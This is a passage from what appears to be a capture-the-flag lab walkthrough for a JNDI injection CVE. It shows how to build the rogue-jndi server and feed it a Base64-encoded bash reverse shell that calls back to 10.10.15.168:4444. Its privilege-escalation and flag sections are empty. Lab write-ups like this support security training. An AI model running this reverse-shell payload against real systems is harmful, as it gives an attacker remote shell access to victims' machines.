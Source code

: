```bash
git clone https://github.com/veracode-research/rogue-jndi  
cd rogue-jndi  
mvn package
```

To use the Rogue-JNDI server we will have to construct and pass it a payload, which will be responsible for giving us a shell on the affected system. We will be Base64 encoding the payload to prevent any encoding  issues.

```bash
echo 'bash -c bash -i >&/dev/tcp/10.10.15.168/4444 0>&1' | base64
```

```bash
YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTUuMTY4LzQ0NDQgMD4mMQo==
```

After the payload has been created, start the Rogue-JNDI application while passing in the payload as part of  the ``--command`` option and your ``tun0 IP`` address to the ``--hostname`` option

```bash
java -jar target/RogueJndi-1.1.jar --command "bash -c {echo,YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTUuMTY4LzQ0NDQgMD4mMQo==}| {base64,-d}|{bash,-i}" --hostname "10.10.15.168"

java -jar target/RogueJndi-1.1.jar --command "bash -c  
{echo,YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTUuMTY4LzQ0NDQgMD4mMQo==}|{base64,-  
d}|{bash,-i}" --hostname "10.10.15.168"
```
---

## Privilege Escalation
## Flags
user.text
```bash

```

root.txt
```

```


## Tags
#cve